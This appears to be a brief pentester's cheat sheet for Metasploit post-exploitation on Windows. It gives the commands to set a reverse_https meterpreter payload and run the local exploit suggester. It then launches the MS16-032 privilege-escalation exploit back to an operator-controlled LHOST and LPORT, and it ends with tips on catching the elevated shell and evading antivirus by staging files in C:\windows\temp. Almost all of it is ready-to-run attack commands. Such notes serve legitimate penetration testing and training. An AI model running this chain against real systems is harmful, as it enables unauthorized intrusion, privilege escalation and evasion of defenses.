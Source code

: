 ### Use Scanners/Exploit in meterpreter session
set payload windows/x64/meterpreter/reverse_https
```sh
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```
#### Pick and use a suggested exploit

```shell
Post module suggests:
   exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   exploit/windows/local/ms10_092_schelevator
```
#### Choose Exploit
```sh
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST <your_ip>
set LPORT <your_port>
exploit

```

> [!NOTE] Title
> Choose different `LPORT`, Because you will get new shell session with elevated user.


> [!NOTE]
> put files in C:\windows\temp. So you may bypass AV. But you won't be able to list this directory.

